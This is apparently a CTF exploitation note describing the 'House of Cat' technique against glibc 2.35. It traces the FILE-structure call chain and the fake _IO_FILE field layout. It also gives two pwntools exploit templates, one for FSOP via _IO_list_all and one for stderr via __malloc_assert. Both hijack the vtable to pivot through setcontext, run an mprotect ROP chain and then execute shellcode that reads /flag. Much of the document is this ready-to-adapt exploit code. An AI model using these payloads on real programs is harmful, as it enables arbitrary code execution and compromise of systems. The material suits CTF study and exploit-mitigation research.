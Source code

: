 [toc]

## Background

**House analysis**: [link](https://bbs.kanxue.com/thread-273895.htm) by author *CatF1y*.

**IO structs offset**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

**EXP template**: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).

On one hand, if we hijack the vtable pointer of file struct to `_IO_wfile_jumps`, I/O operation will call `_IO_wfile_xsputn` (+0x38) for functions like `puts` or `printf`.

> When we use `printf` to output a string with `\n`, the function will be replaced by `puts` and the next-line character is removed.

Then function calls can be illustrated as:

```
printf/puts ->_IO_XSPUTN->_IO_OVERFLOW
```

On the other hand, when a program exits, `_IO_flush_all_lockp` will iterate `_IO_list_all` and call `_IO_OVERFLOW` (+0x18) instead:

```
exit
	fcloseall
		_IO_cleanup
			_IO_flush_all_lockp
				_IO_OVERFLOW
```

Overall, if we hijack the vtable pointer to `_IO_wfile_jumps+0x10` when `puts/printf` is called, or to `_IO_wfile_jumps+0x30` in FSOP, I/O operation will now call **` _IO_wfile_seekoff`** (+0x48) instead.

For the House of Cat, we aim to write the `_IO_wfile_jumps` with an offset over the vtable pointer. To make I/O operation eventually executes  **` _IO_wfile_seekoff`** because of the offset made. We usually have two ways to trigger the operation introduced above, but to use the 1st way to trigger `_malloc_assert`, requiring us to own the primitive of arbitrary write to any address (to hijack `stderr`). Thus, in most scenarios we will go for FSOP.



## FSOP | _IO_list_all

**Attack Chain**:

```
_IO_wfile_seekoff
	_IO_switch_to_wget_mode
		_IO_WOVERFLOW
```

**Execution Flow**:

After meeting the required conditions, `_IO_WOVERFLOW` is called:

```
<_IO_wfile_seekoff+41>: mov rax, [rdi+0xa0];		
<_IO_wfile_seekoff+70>: mov rdx, [rax_0x8];
<_IO_wfile_seekoff+74>: cmp [rax+0x10], bx;
<_IO_switch_to_wget_mode+4> : mov rax, [rdi+0xa0];	# rax1=_wide_data
<_IO_switch_to_wget_mode+15>: mov rdx, [rax+0x20];
<_IO_switch_to_wget_mode+19>: cmp rdx, [rax+0x18];
<_IO_switch_to_wget_mode+25>: mov rax, [rax+0xe0];	# rax2=[rax1+0xe0] (wide vtable) 
<_IO_switch_to_wget_mode+37>: call [rax+0x18];		# call [rax2+0x18] (_overflow)
```

**Fake IO Deployment**:

- `vtable`:  `_IO_wfile_jumps+0x10`.
- `_lock`: A writable address, i.e. heap, writable libc address.
- `_wide_data`: An address `rax1` in our control, namely `*(fp+0xa0)=rax1`.
- `_wide_data->_IO_read_ptr ！= _wide_data->_IO_read_end`: namely  `*(A+0x0) != *(A+0x8)`.
- `_wide_data->_IO_write_ptr > _wide_data->_IO_write_base`: namely  `*(A+0x20) > *(A+0x18)`. 
- If we make `_wide_data=fp+0x30`, actually we can let `fp->_IO_save_base < f->_IO_backup_base`, for less memory space required.
- `_wide_data->_wide_vtable`: Heap address `rax2` in our control, namely `*(A+0xe0)=rax2`.
- `_wide_data->_wide_vtable->overflow`: Starting function/gadget `C`  to hijack `RIP`, namely `*(rax2+0x18)=C`.

### GG | setcontext

**Version**: GLIBC 2.35

```py
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x170]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO   
    0x0:  0,	# _flag = rdi
    0x40: 1,	# _IO_buf_end; rcx!=0
    0x48: 2,	# _IO_save_base
    0x50: fakeIO_addr+0x50,	# _IO_backup_base=rdx
    0x58: setcontext, # _IO_save_end=rip
    0x68: 0,	# _chain
    0x88: fakeIO_addr+0x30,	# _lock (writable addr)
    0xa0: fakeIO_addr+0x30,	# rax1 (fp->_wide_data)
    0xc0: 1,	# mode=1
    0xd8: _IO_wfile_jumps+0x10,	# vtable,
    0xf0: [fakeIO_addr+0xf0, ret],	# setcontext ->
    0x110: fakeIO_addr+0x40,	# rax2 (fp->_wide_data->vtable)
    0x120: mprotect_chain,
    0x170: orw_chain,	# mprotect ->
}, filler='\0')
"""
<setcontext+61> :  mov rsp, [rdx+0xa0]
<setcontext+301>: push rcx
<setcontext+334>: ret
"""
```

- The value of `rcx` is related to `mode`, `_IO_helper_jumps`, and the fake `vtable` — the difference between two libc addresses validated by `_IO_validate_vtable`.
- If we want to execute `system` or one-gadget instead of `setcontext`, set `rdx` and make it larger than previous adjacent value to meet the requirements. 
- The set up for `mode` (+0xc0) is not definitely necessary .
- If we make `_flag&0x2!=0`, execution flow will get inside `buffered_vfprintf`, which makes `mode!=0`.

**Illustration**:

![house_of_cat_depict](House of Cat.assets/house_of_cat_depict.png)



## Stderr | ___malloc_assert

Unlike FSOP, we will need at least 2 primitives of **Largebin Attack** (or some other similar attack methods) to write arbitrary pointers:

1. Overwrite pointer `stderr` pointing to `_IO_2_1_stderr_`, to an address we are in control.
2. Overwrite **top chunk** size (less than 0x20), to trigger `trigger __malloc_assert`.

**Attack Chain**:

```
_IO_wfile_seekoff
	_IO_switch_to_wget_mode
		_IO_WOVERFLOW
```

**Triggers**:

We can try to modify the **top chunk** to trigger — any one of the following will work:

1. The size of top chunk is less than 0x20 (`MINSIZE`).
2. The `prev_inuse` bit of top chunk is 0.
3. The `old_top` is not page alignment.

**Others remain same as FSOP.**

### GG | setcontext

**Version**: GLIBC 2.35

```py
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
stderr			= libc_base + libc.sym['stderr']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']

rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(setcontext)

fakeIO_addr    = stderr
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x170]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO   
    0x0:  0,	# _flag = rdi
    0x40: 1,	# _IO_buf_end; rcx!=0
    0x48: 2,	# _IO_save_base
    0x50: fakeIO_addr+0x50,	# _IO_backup_base=rdx
    0x58: setcontext, # _IO_save_end=rip
    0x68: 0,	# _chain
    0x88: fakeIO_addr+0x30,	# _lock (writable addr)
    0xa0: fakeIO_addr+0x30,	# rax1 (fp->_wide_data)
    0xc0: 1,	# mode=1
    0xd8: _IO_wfile_jumps+0x10,	# vtable,
    0xf0: [fakeIO_addr+0xf0, ret],	# setcontext ->
    0x110: fakeIO_addr+0x40,	# rax2 (fp->_wide_data->vtable)
    0x120: mprotect_chain,
    0x170: orw_chain,	# mprotect ->
}, filler='\0')
"""
<setcontext+61> :  mov rsp, [rdx+0xa0]
<setcontext+301>: push rcx
<setcontext+334>: ret
"""
```






